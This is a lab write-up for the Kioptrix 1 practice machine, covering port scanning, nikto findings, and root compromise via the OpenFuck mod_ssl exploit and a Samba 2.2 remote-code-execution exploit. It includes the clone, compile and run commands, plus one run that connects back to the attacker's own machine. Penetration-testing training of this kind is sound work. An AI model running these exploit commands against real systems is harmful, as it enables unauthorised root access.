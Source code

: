 # Kioptrix 1

## Information Gathering

Scanned all TCP ports:

```
PORT     STATE SERVICE     VERSION
22/tcp   open  ssh         OpenSSH 2.9p2 (protocol 1.99)
|_sshv1: Server supports SSHv1
| ssh-hostkey: 
|   1024 b8746cdbfd8be666e92a2bdf5e6f6486 (RSA1)
|   1024 8f8e5b81ed21abc180e157a33c85c471 (DSA)
|_  1024 ed4ea94a0614ff1514ceda3a80dbe281 (RSA)
80/tcp   open  http        Apache httpd 1.3.20 ((Unix)  (Red-Hat/Linux) mod_ssl/2.8.4 OpenSSL/0.9.6b)
| http-methods: 
|   Supported Methods: GET HEAD OPTIONS TRACE
|_  Potentially risky methods: TRACE
|_http-server-header: Apache/1.3.20 (Unix)  (Red-Hat/Linux) mod_ssl/2.8.4 OpenSSL/0.9.6b
|_http-title: Test Page for the Apache Web Server on Red Hat Linux
111/tcp  open  rpcbind     2 (RPC #100000)
| rpcinfo: 
|   program version    port/proto  service
|   100000  2            111/tcp   rpcbind
|   100000  2            111/udp   rpcbind
|   100024  1           1024/tcp   status
|_  100024  1           1024/udp   status
139/tcp  open  netbios-ssn Samba smbd (workgroup: EMYGROUP)
443/tcp  open  ssl/https   Apache/1.3.20 (Unix)  (Red-Hat/Linux) mod_ssl/2.8.4 OpenSSL/0.9.6b
|_http-server-header: Apache/1.3.20 (Unix)  (Red-Hat/Linux) mod_ssl/2.8.4 OpenSSL/0.9.6b
|_ssl-date: 2023-04-13T19:36:42+00:00; +1m50s from scanner time.
| ssl-cert: Subject: commonName=localhost.localdomain/organizationName=SomeOrganization/stateOrProvinceName=SomeState/countryName=--
| Issuer: commonName=localhost.localdomain/organizationName=SomeOrganization/stateOrProvinceName=SomeState/countryName=--
| Public Key type: rsa
| Public Key bits: 1024
| Signature Algorithm: md5WithRSAEncryption
| Not valid before: 2009-09-26T09:32:06
| Not valid after:  2010-09-26T09:32:06
| MD5:   78ce52934723e7fec28d74ab42d702f1
|_SHA-1: 9c4291c3bed2a95b983d10acf766ecb987661d33
| http-methods: 
|_  Supported Methods: GET HEAD POST
|_http-title: 400 Bad Request
| sslv2: 
|   SSLv2 supported
|   ciphers: 
|     SSL2_RC2_128_CBC_EXPORT40_WITH_MD5
|     SSL2_DES_64_CBC_WITH_MD5
|     SSL2_RC2_128_CBC_WITH_MD5
|     SSL2_RC4_64_WITH_MD5
|     SSL2_DES_192_EDE3_CBC_WITH_MD5
|     SSL2_RC4_128_EXPORT40_WITH_MD5
|_    SSL2_RC4_128_WITH_MD5
1024/tcp open  status      1 (RPC #100024)
MAC Address: 00:0C:29:1F:3C:F0 (VMware)

Host script results:
|_clock-skew: 1m49s
|_smb2-time: Protocol negotiation failed (SMB2)
| nbstat: NetBIOS name: KIOPTRIX, NetBIOS user: <unknown>, NetBIOS MAC: 000000000000 (Xerox)
| Names:
|   KIOPTRIX<00>         Flags: <unique><active>
|   KIOPTRIX<03>         Flags: <unique><active>
|   KIOPTRIX<20>         Flags: <unique><active>
|   \x01\x02__MSBROWSE__\x02<01>  Flags: <group><active>
|   MYGROUP<00>          Flags: <group><active>
|   MYGROUP<1d>          Flags: <unique><active>
|_  MYGROUP<1e>          Flags: <group><active>

```

Enumerated UDP ports:

```
unknown
```

Notes:

80 is running Apache 1.3.20 // SSL 2.8.4

* <mark style="color:red;">Vulnerable to OpenFuck exploit</mark>

{% embed url="https://github.com/heltonWernik/OpenLuck" %}
Exploit Repository
{% endembed %}

## Enumeration

### Port 80 - HTTP (Apache 1.3.20)

Nikto:

```
nikto -h http://192.168.1.104

- Nikto v2.1.6
---------------------------------------------------------------------------
+ Target IP:          192.168.1.104
+ Target Hostname:    192.168.1.104
+ Target Port:        80
+ Start Time:         2023-04-13 15:44:58 (GMT-4)
---------------------------------------------------------------------------
+ Server: Apache/1.3.20 (Unix)  (Red-Hat/Linux) mod_ssl/2.8.4 OpenSSL/0.9.6b
+ Server may leak inodes via ETags, header found with file /, inode: 34821, size: 2890, mtime: Wed Sep  5 23:12:46 2001
+ The anti-clickjacking X-Frame-Options header is not present.
+ The X-XSS-Protection header is not defined. This header can hint to the user agent to protect against some forms of XSS
+ The X-Content-Type-Options header is not set. This could allow the user agent to render the content of the site in a different fashion to the MIME type
+ OSVDB-27487: Apache is vulnerable to XSS via the Expect header
+ OpenSSL/0.9.6b appears to be outdated (current is at least 1.1.1). OpenSSL 1.0.0o and 0.9.8zc are also current.
+ Apache/1.3.20 appears to be outdated (current is at least Apache/2.4.37). Apache 2.2.34 is the EOL for the 2.x branch.
+ mod_ssl/2.8.4 appears to be outdated (current is at least 2.8.31) (may depend on server version)
+ Allowed HTTP Methods: GET, HEAD, OPTIONS, TRACE 
+ OSVDB-877: HTTP TRACE method is active, suggesting the host is vulnerable to XST
+ OSVDB-838: Apache/1.3.20 - Apache 1.x up 1.2.34 are vulnerable to a remote DoS and possible code execution. CAN-2002-0392.
+ OSVDB-4552: Apache/1.3.20 - Apache 1.3 below 1.3.27 are vulnerable to a local buffer overflow which allows attackers to kill any process on the system. CAN-2002-0839.
+ OSVDB-2733: Apache/1.3.20 - Apache 1.3 below 1.3.29 are vulnerable to overflows in mod_rewrite and mod_cgi. CAN-2003-0542.
+ mod_ssl/2.8.4 - mod_ssl 2.8.7 and lower are vulnerable to a remote buffer overflow which may allow a remote shell. http://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2002-0082, OSVDB-756.
+ ///etc/hosts: The server install allows reading of any system file by adding an extra '/' to the URL.
+ OSVDB-682: /usage/: Webalizer may be installed. Versions lower than 2.01-09 vulnerable to Cross Site Scripting (XSS).
+ OSVDB-3268: /manual/: Directory indexing found.
+ OSVDB-3092: /manual/: Web server manual found.
+ OSVDB-3268: /icons/: Directory indexing found.
+ OSVDB-3233: /icons/README: Apache default file found.
+ OSVDB-3092: /test.php: This might be interesting...
+ /wp-content/themes/twentyeleven/images/headers/server.php?filesrc=/etc/hosts: A PHP backdoor file manager was found.
+ /wordpresswp-content/themes/twentyeleven/images/headers/server.php?filesrc=/etc/hosts: A PHP backdoor file manager was found.
+ /wp-includes/Requests/Utility/content-post.php?filesrc=/etc/hosts: A PHP backdoor file manager was found.
+ /wordpresswp-includes/Requests/Utility/content-post.php?filesrc=/etc/hosts: A PHP backdoor file manager was found.
+ /wp-includes/js/tinymce/themes/modern/Meuhy.php?filesrc=/etc/hosts: A PHP backdoor file manager was found.
+ /wordpresswp-includes/js/tinymce/themes/modern/Meuhy.php?filesrc=/etc/hosts: A PHP backdoor file manager was found.
+ /assets/mobirise/css/meta.php?filesrc=: A PHP backdoor file manager was found.
+ /login.cgi?cli=aa%20aa%27cat%20/etc/hosts: Some D-Link router remote command execution.
+ /shell?cat+/etc/hosts: A backdoor was identified.
+ 8724 requests: 0 error(s) and 30 item(s) reported on remote host
+ End Time:           2023-04-13 15:45:20 (GMT-4) (22 seconds)
```

### Port 445 - Samba (2.2.1a)

smb\_version:

* We can also analyze SMB/SAMBA packets in Wireshark to verify the Samba version inside of the TCP steam

```
msfconsole
search smb_version
set RHOSTS 192.168.1.104
run
```

Samba 2.2 RCE (10.c):

```
searchsploit samba 2.2
Samba < 2.2.8 (Linux/BSD) - Remote Code Execution 10.c
searchsploit -m 10.c
gcc 10.c -o 10
```

## Exploitation

There are multiple ways to exploit and gain access to this machine. <mark style="color:yellow;">This is the first one</mark>.

### OpenFuck SSL RCEL:

This is a C file, you must compile the binary with `gcc` and then use the proper arguments to satisfy the exploit. You will get some warnings, that's okay, just ignore them.

```
git clone https://github.com/heltonWernik/OpenLuck
cd OpenLuck
sudo apt-get install libssl-dev
gcc -o OpenFuck OpenFuck.c -lcrypto
./OpenFuck 0x6b 192.168.1.104 443 -c 40
```

<figure><img src="../../.gitbook/assets/image (1) (2) (1).png" alt=""><figcaption></figcaption></figure>

* You can see that we land as a root user

### Samba 2.2.x RCE

10.c -- be sure to compile (shown above in enumeration):

```
./10 -b=0 -c <kali_ip> <target_ip>
```

* You can see that we land as root again!

<figure><img src="../../.gitbook/assets/image (12) (4).png" alt=""><figcaption></figcaption></figure>
